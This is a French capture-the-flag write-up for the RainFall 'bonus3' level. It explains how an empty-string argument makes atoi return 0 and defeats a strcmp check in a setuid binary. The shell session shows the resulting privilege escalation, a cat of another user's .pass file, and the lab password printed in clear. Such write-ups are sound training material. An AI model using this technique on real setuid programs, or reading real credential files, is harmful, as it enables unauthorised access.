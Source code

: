 ## Comportement
- J'ai des droits `bonus3` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 end    users  5595 Mar  6  2016 bonus3*`
- En exécutant le binaire (`./bonus3`), on observe qu'il print un retour a la ligne quand on lui passe un argument.
    ```shell
        bonus3@RainFall:~$ ./bonus3
        bonus3@RainFall:~$ ./bonus3 123

        bonus3@RainFall:~$ ./bonus3 123 ABC
        bonus3@RainFall:~$
    ```


## Analyse
- Le programme nécessite au moins 1 argument (argv[1]) sinon il se termine. De plus, le programme lit le fichier .pass pour le niveau suivant et le stocke dans un tampon via `fread()`.
- Appel a `atoi()` avec argv[1] comme paramètre et utilise le résultat comme index pour notre tampon, à cet index le programme insère un octet nul.
- Après cela, le programme effectue une comparaison sur notre buffer, il doit être égal à argv[1] pour que nous exécutions un shell.


## Résolution
- On veut eviter la comparaison. On peut le faire en entrant une chaîne vide comme premier argument, `atoi()` renverra 0 puisque la chaîne ne contient pas de représentation de valeur numérique. Par conséquent, il remplacera le premier caractère dans le tampon par un `\0` (buffer[atoi("")] = 0), et puisque `strcmp()` s'arrête à \0, les deux chaînes seront considérées comme identiques 
```shell
    bonus3@RainFall:~$ ./bonus3 ""
    $ whoami
    end
    $ cat /home/user/end/.pass
    3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
    $ exit
    bonus3@RainFall:~$ su end
    Password:
    end@RainFall:~$ ls -l
    total 4
    -rwsr-s---+ 1 end users 26 Sep 23  2015 end
    end@RainFall:~$ cat end
    Congratulations graduate!
end@RainFall:~$
```
